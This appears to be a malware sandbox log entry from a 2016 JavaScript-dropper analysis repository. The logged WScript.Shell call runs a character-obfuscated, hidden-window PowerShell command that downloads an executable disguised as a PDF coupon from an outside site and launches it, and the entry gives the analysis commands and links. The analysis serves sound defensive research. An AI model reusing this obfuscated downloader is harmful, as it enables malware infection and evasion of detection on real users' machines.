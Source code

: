     14 Dec 20:23:27 - new WScript.Shell[2]
    14 Dec 20:23:27 - WScript.Shell[2].Run(cmd.exe /c powershell.exe   -ExecutionPolicy  bypass    -noprofile   -windowstyle  hidden $migipk='^$';$kqevovde='^p';$unub='^a';$tygnefb='^t';$sbixeg='^h';$tecgerz='^=';$eryse='^(';$avkuvynb='^$';$qzarach='^e';$ciwyro='^n';$ulmezyq='^v';$ymqumnyzj='^:';$bmohetm='^t';$sideq='^e';$jevefbi='^m';$svepqa='^p';$ulvymu='^+';$kaqsa='^''';$izafso='^.';$wlohosky='^e';$silpox='^x';$aqselev='^e';$levfima='^''';$owaqij='^)';$omyjs='^;';$ahzujf='^(';$omitadk='^N';$arybom='^e';$usnakdipt='^w';$unar='^-';$zype='^O';$ezbaxnaj='^b';$otuxxep='^j';$iquxdo='^e';$uchaquf='^c';$ycydnez='^t';$ftyrbi='^ ';$uljenby='^S';$ywacjy='^y';$oxop='^s';$qibragd='^t';$ravafy='^e';$ogavo='^m';$evewzars='^.';$ygwavu='^N';$ulzuvuz='^e';$ulydo='^t';$irkufipd='^.';$abyhy='^W';$fdoggosdi='^e';$have='^b';$gyjacy='^c';$ywelzikl='^l';$mbiwja='^i';$ijif='^e';$soka='^n';$tdytkud='^t';$qubcagk='^)';$avmyf='^.';$kosev='^D';$lolrowbe='^o';$apas='^w';$yvbujo='^n';$otelwuw='^l';$dsobehhu='^o';$oqav='^a';$odbujqypz='^d';$elcyxcyh='^F';$kezdywt='^i';$hcogwo='^l';$jvuhyvj='^e';$afac='^(';$lvutykpu='^''';$qfyctyva='^h';$acwihge='^t';$fizju='^t';$npynep='^p';$ugnevlek='^:';$ugavcy='^/';$rfatcyw='^/';$dujy='^w';$parasy='^w';$opujy='^w';$gtupe='^.';$aprokpal='^k';$abwysy='^i';$agmif='^t';$nheqysje='^d';$ahybt='^o';$yskanagq='^o';$ajrewnasj='^r';$ebvonwukw='^s';$kcokiz='^.';$foby='^r';$mfobjof='^u';$ucim='^/';$xodedbi='^w';$xkyrniplo='^p';$nzolo='^-';$dqycoxo='^c';$cjyxkowm='^o';$wevcish='^n';$csipy='^t';$mvevdiz='^e';$ebezby='^n';$dpedga='^t';$olnozz='^/';$esgafa='^u';$ykix='^p';$quldar='^l';$egxex='^o';$zybgify='^a';$owbudlap='^d';$owlolo='^s';$osbuzbe='^/';$jytykq='^2';$vjesucle='^0';$alduzav='^1';$umijy='^4';$kicni='^/';$ywerho='^0';$murewpo='^1';$urufemc='^/';$ibqehr='^b';$yjixbu='^8';$vozu='^l';$uvaw='^k';$ubawak='^i';$ipfutem='^f';$rutod='^n';$ekaw='^z';$edtafta='^d';$inawy='^/';$ajfegqo='^C';$ufocu='^o';$equst='^u';$zohuza='^p';$dhawo='^o';$nwipikh='^n';$cywiw='^9';$qgochedw='^8';$fyndik='^5';$uqeda='^4';$juqaty='^.';$yftifoqw='^p';$sawvif='^d';$dtomu='^f';$yshyxik='^''';$pekretv='^,';$xxavludb='^$';$yrjely='^p';$enuke='^a';$xasmopo='^t';$osybho='^h';$zdomum='^)';$trawomo='^;';$loreh='^ ';$qalci='^S';$dqynnof='^t';$ppysy='^a';$zkytbeb='^r';$ovelf='^t';$lajkixa='^-';$fsebi='^P';$ukpab='^r';$lkura='^o';$rfukopn='^c';$ttawefa='^e';$preffojja='^s';$hlofejqu='^s';$yxnefka='^ ';$fwapywj='^$';$mydri='^p';$cape='^a';$ckukxoq='^t';$kbewifn='^h'; Invoke-Expression ($migipk+$kqevovde+$unub+$tygnefb+$sbixeg+$tecgerz+$eryse+$avkuvynb+$qzarach+$ciwyro+$ulmezyq+$ymqumnyzj+$bmohetm+$sideq+$jevefbi+$svepqa+$ulvymu+$kaqsa+$izafso+$wlohosky+$silpox+$aqselev+$levfima+$owaqij+$omyjs+$ahzujf+$omitadk+$arybom+$usnakdipt+$unar+$zype+$ezbaxnaj+$otuxxep+$iquxdo+$uchaquf+$ycydnez+$ftyrbi+$uljenby+$ywacjy+$oxop+$qibragd+$ravafy+$ogavo+$evewzars+$ygwavu+$ulzuvuz+$ulydo+$irkufipd+$abyhy+$fdoggosdi+$have+$gyjacy+$ywelzikl+$mbiwja+$ijif+$soka+$tdytkud+$qubcagk+$avmyf+$kosev+$lolrowbe+$apas+$yvbujo+$otelwuw+$dsobehhu+$oqav+$odbujqypz+$elcyxcyh+$kezdywt+$hcogwo+$jvuhyvj+$afac+$lvutykpu+$qfyctyva+$acwihge+$fizju+$npynep+$ugnevlek+$ugavcy+$rfatcyw+$dujy+$parasy+$opujy+$gtupe+$aprokpal+$abwysy+$agmif+$nheqysje+$ahybt+$yskanagq+$ajrewnasj+$ebvonwukw+$kcokiz+$foby+$mfobjof+$ucim+$xodedbi+$xkyrniplo+$nzolo+$dqycoxo+$cjyxkowm+$wevcish+$csipy+$mvevdiz+$ebezby+$dpedga+$olnozz+$esgafa+$ykix+$quldar+$egxex+$zybgify+$owbudlap+$owlolo+$osbuzbe+$jytykq+$vjesucle+$alduzav+$umijy+$kicni+$ywerho+$murewpo+$urufemc+$ibqehr+$yjixbu+$vozu+$uvaw+$ubawak+$ipfutem+$rutod+$ekaw+$edtafta+$inawy+$ajfegqo+$ufocu+$equst+$zohuza+$dhawo+$nwipikh+$cywiw+$qgochedw+$fyndik+$uqeda+$juqaty+$yftifoqw+$sawvif+$dtomu+$yshyxik+$pekretv+$xxavludb+$yrjely+$enuke+$xasmopo+$osybho+$zdomum+$trawomo+$loreh+$qalci+$dqynnof+$ppysy+$zkytbeb+$ovelf+$lajkixa+$fsebi+$ukpab+$lkura+$rfukopn+$ttawefa+$preffojja+$hlofejqu+$yxnefka+$fwapywj+$mydri+$cape+$ckukxoq+$kbewifn);;, 0, undefined)

**malwr.com:** https://malwr.com/analysis/OTU4YTAyMDgxYzI4NDdlMGI3MTlkNTQyMjc0YTNjZGY/

**Source code:** malware/20161214/5cf27448bf9355692a0448f41f65da625e876e91c66cf6f0a7f7127aed08087b.js

**Command:**

    node jailme.js -c ./config_wscript_only.json malware/20161214/5cf27448bf9355692a0448f41f65da625e876e91c66cf6f0a7f7127aed08087b.js

**Output:** [malware/20161214/5cf27448bf9355692a0448f41f65da625e876e91c66cf6f0a7f7127aed08087b.out](malware/20161214/5cf27448bf9355692a0448f41f65da625e876e91c66cf6f0a7f7127aed08087b.out)
